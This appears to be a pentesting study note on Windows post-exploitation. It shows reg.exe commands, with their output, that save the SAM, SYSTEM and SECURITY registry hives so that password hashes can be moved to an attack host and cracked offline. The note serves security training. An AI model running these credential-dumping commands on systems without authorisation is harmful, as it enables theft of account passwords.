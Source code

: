 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Information
---
```

With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.

#### Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

## Dumping Hashes

See [[Impacket#Dump Credentials]]